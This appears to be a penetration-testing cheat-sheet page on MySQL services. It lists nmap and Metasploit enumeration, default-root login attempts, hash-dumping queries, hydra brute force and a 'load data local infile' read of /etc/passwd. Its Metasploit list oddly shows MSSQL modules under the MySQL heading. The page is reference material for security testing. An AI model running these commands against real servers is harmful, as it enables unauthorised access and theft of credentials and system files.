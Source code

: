 ```yaml
---
description: (TCP 3306, 33060, 33061)
---
```


# MySQL

## :information\_source: Introduction

#### [MySQL](https://www.mysql.com/services/)

The shell ports for MySQL services are:

1. Client-server ( classic MySQL protocol ) TCP 3306
2. Client-server ( X protocol ) TCP 33060
3. Server cluster configuration check port, TCP 33061

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] Login brute force
* [ ] Check for MySQL arbitrary file read
* [ ] Check for CVEs



## Enumeration

```
nmap -sV -p 3306,33060,33061 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
auxiliary/scanner/mysql/mysql_file_enum
```

## Query ( with credentials ) <a href="basics" id="basics"></a>

### Manual

```bash
# Try connection from outside
mysql --host <IP> -u root -proot
        
# Connection from the target machine
mysql -u root -p root database
```

```bash
show databases;
use database_name;
show tables;
describe table_name;
select host, user, password from mysql.user;

```

{% embed url="https://www.mysqltutorial.org/mysql-cheat-sheet.aspx" %}

### Automated

#### nmap :&#x20;

```bash
# Audits MySQL database server security configuration
mysql-audit

# Attempts to list all databases on a MySQL server. (creds required)
mysql-databases

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
mysql-dump-hashes

# Checks for MySQL servers with an empty password for root or anonymous.
mysql-empty-password

# Performs valid-user enumeration against MySQL server using a bug
mysql-enum

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
mysql-info

# Runs a query against a MySQL database and returns the results as a table. (creds required)
mysql-query

# Attempts to list all users on a MySQL server.
mysql-users

# Attempts to show all variables on a MySQL server.
mysql-variables

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
mysql-vuln-cve2012-2122
```

#### Metasploit :

```
auxiliary/gather/lansweeper_collector                            Lansweeper Credential Collector
auxiliary/scanner/mssql/mssql_hashdump                           MSSQL Password Hashdump
auxiliary/scanner/mssql/mssql_ping                               MSSQL Ping Utility
auxiliary/scanner/mssql/mssql_schemadump                         MSSQL Schema Dump
auxiliary/admin/mssql/mssql_exec                                 Microsoft SQL Server Command Execution
auxiliary/admin/mssql/mssql_enum                                 Microsoft SQL Server Configuration Enumerator
auxiliary/admin/mssql/mssql_escalate_dbowner                     Microsoft SQL Server Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as                  Microsoft SQL Server Escalate EXECUTE AS
auxiliary/admin/mssql/mssql_findandsampledata                    Microsoft SQL Server Find and Sample Data
auxiliary/admin/mssql/mssql_sql                                  Microsoft SQL Server Generic Query
auxiliary/admin/mssql/mssql_sql_file                             Microsoft SQL Server Generic Query from File
auxiliary/admin/mssql/mssql_idf                                  Microsoft SQL Server Interesting Data Finder
auxiliary/admin/mssql/mssql_ntlm_stealer                         Microsoft SQL Server NTLM Stealer
auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                Microsoft SQL Server SQLi Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as_sqli             Microsoft SQL Server SQLi Escalate Execute AS
auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                    Microsoft SQL Server SQLi NTLM Stealer
auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli            Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
auxiliary/admin/mssql/mssql_enum_sql_logins                      Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
auxiliary/admin/mssql/mssql_enum_domain_accounts                 Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
auxiliary/analyze/crack_databases                                Password Cracker: Databases
```

## Login Brute Force

```
 auxiliary/scanner/mssql/mssql_login 
 nmap --script mysql-brute <IP>
 hydra -L usernames.txt -P pass.txt <IP> mysql
```

## MySQL Arbitrary File Read

Load data infile is a very special syntax. Friends who know about injection or often play CTF may be familiar with this syntax. In CTF, we often encounter situations where there is no way to load\_file to read the file. At this time, load data infile is the only possible way to read files. Generally our statement is this:

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

The mysql server will read the server’s / etc / passwd and insert the data into the table according to `'\n'`. But now this statement also requires you to have FILE permissions, and non-local loaded statements are also restricted by `secure_file_priv`.

```
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

If we add a keyword local

```
mysql> load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

Query OK, 11 rows affected, 11 warnings (0.01 sec)
Records: 11  Deleted: 0  Skipped: 0  Warnings: 11
```

The client’s file will be read and send to the server. The execution result of the above statement is as follows.

![](../../.gitbook/assets/0-s6pVc0L8-WEq0HGr.png)

#### the PoC can be found here:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server" %}

an overview of the attack

{% embed url="http://russiansecurity.expert/2016/04/20/mysql-connect-file-read" %}

